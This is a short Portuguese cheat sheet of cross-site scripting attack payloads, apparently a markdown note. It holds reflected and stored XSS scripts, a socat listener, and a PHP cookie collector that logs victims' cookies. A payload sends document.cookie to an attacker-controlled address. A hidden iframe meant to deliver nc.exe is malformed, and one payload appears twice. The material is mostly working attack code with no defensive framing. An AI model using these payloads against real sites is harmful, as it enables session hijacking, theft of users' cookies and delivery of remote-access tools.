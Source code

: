 # XSS

## XSS Reflected
```html
<script>alert('Teste XSS')</script>
```

## XSS Stored
Possui um impacto maior pois o script fica salvo na página e toda vez que essa página é acessada o script é executado.

```html
<script>alert(document.cookie)</script>
```  
```html
<script>new Image().src="http://192.168.0.100:8081/";</script>
```  
```html
<script>new Image().src="http://192.168.0.100:8081/";</script>
```  

Use o socat para receber as conexões:  
```bash
socat TCP-LISTEN:8081,reuseaddr,fork -
```

### Coletando cookies:

Coletor de cookie:
```php
\\código no servidor
<?php
    $cookie=$_GET['cookie'];
    $useragent=$_SERVER['HTTP_USER_AGENT'];
    $file=fopen('cookie.txt','a');
    fwrite($file,"USER AGENT:$useragent || COOKIE:$cookie \n");
    fclose($file);
?>
```
*Necessário ter um arquivo cookie.txt criado.*  

Script para ser executado no alvo:  
```html
<script>new Image().src="http://192.168.0.100:8081/coletor.php?cookie="+document.cookie;</script>
```

### Download de arquivo  
```html
<iframe>src="http://192.168.0.100:8081/nc.exe" height="0" width="0"</iframe>
```
